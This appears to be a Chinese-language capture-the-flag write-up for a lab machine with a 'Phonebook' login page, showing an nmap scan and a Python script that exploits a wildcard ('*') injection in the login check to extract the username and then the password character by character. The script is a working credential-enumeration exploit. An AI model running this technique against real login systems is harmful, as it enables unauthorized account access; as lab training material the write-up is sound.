





这个靶机直接给出了ip和端口。先扫一下

 `nmap -sCT 178.62.23.66 -vv  -Pn -p 32065`

无事发生。



直接网页打开看看



子目录扫描一下



那么重点就在login页面。下面有个Reese用户名，直接爆破，无果。

尝试sql注入，也没有结果。但是发现用户名和密码为\*和\*时可以登录。进一步尝试用户名和密码为\R*和\*时，也可以登录。那么猜测在匹配用户名和密码时\*通配符能够生效，这样就可以遍历用户名和密码了。

先把密码设置为*，用户名从第一个字符开始匹配。匹配的字符范围为`"QWERTYUIOPASDFGHJKLZXCVBNMqwertyuiopasdfghjklzxcvbnm!@#$%^&()[]{}1234567890_"`，用下面的py代码进行匹配。

```python
import requests

burp0_url = "http://178.62.23.66:32056/login"
burp0_cookies = {"mysession": "MTY4OTA0NjMwOHxEdi1CQkFFQ180SUFBUkFCRUFBQUpfLUNBQUVHYzNSeWFXNW5EQW9BQ0dGMWRHaDFjMlZ5Qm5OMGNtbHVad3dIQUFWeVpXVnpaUT09fC2G0t-expy4KhpzIRjJ7oOfspF-dhgaWSwAPs6vNmTo"}
burp0_headers = {"Cache-Control": "max-age=0", "Upgrade-Insecure-Requests": "1", "Origin": "http://178.62.23.66:32056", "Content-Type": "application/x-www-form-urlencoded", "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.5359.125 Safari/537.36", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9", "Referer": "http://178.62.23.66:30130/login?message=Authentication%20failed", "Accept-Encoding": "gzip, deflate", "Accept-Language": "zh-CN,zh;q=0.9", "Connection": "close"}
burp0_data = {"username": "*", "password": "*"}


"<title>Phonebook</title>"

char = "QWERTYUIOPASDFGHJKLZXCVBNMqwertyuiopasdfghjklzxcvbnm!@#$%^&()[]{}1234567890"

qflag = False
uname = ""
while(not qflag):
    qflag=True
    for i in char:
        burp0_data = {"username": uname+i+"*", "password": "*"}
        res=requests.post(burp0_url, headers=burp0_headers, cookies=burp0_cookies, data=burp0_data)
        html = res.text
        if "<title>Phonebook</title>" in html:
            print(i)
            uname+=i
            qflag =False
            break
        
print("finish: "+uname)
            
```



用户名为：REESE，和登陆界面给出的一样。稍微修改下代码，这次遍历跑密码，得到flag。


